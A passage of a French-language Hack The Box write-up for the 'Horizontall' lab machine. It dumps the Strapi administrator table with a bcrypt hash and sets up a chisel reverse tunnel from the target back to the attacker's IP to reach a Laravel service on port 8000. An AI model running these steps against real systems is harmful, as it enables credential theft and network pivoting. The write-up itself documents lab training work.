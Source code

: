 ```bash
| users-permissions_role       |
| users-permissions_user       |
+------------------------------+
8 rows in set (0.00 sec)

mysql> select * from strapi_administrator;
+----+----------+-----------------------+--------------------------------------------------------------+--------------------+---------+
| id | username | email                 | password                                                     | resetPasswordToken | blocked |
+----+----------+-----------------------+--------------------------------------------------------------+--------------------+---------+
|  3 | admin    | admin@horizontall.htb | $2a$10$bPZbunuhF9lWrddSuw3RI.QmCitfZDJmwbB0WozXlxT2siCwanVVK | NULL               |    NULL |
+----+----------+-----------------------+--------------------------------------------------------------+--------------------+---------+
1 row in set (0.00 sec)

                                                                    ^^^
                                                                    |||
                                                                    |||
                                                                    |||

                                                 THIS IS OUR PASSWORD THAT WE HAVE DEFINED...

```

## Privilege Escalation

### Laravel port 8000
On découvre qu'un service tourne sur le port 8000, il s'agit du framework laravel. Dans un premier temps, il a fallu faire du port forwarding afin d'avoir plus d'informations.

### Chisel
On fait du port forwarding avec chisel pour dupliquer sur ma kali le port 8000 de la machine cible. On découvre ensuite qu'il s'agit du framework laravel qui se cache derriere.
```bash
┌──(kali㉿kali)-[~/htb/Horizontall]
└─$ ./chisel server -p 1082 --reverse
2025/03/06 10:36:18 server: Reverse tunnelling enabled
2025/03/06 10:36:18 server: Fingerprint GadUpp2bJ5QyhTVJpJx1RJ3JnbEW0HpdrGb1bHRNevo=
2025/03/06 10:36:18 server: Listening on http://0.0.0.0:1082
2025/03/06 10:36:20 server: session#1: tun: proxy#R:8000=>localhost:8000: Listening

-----------------------
## Sur la machine cible

$ ./chisel client 10.10.14.19:1082 R:8000:localhost:8000 > /dev/null 2> /dev/null &

```

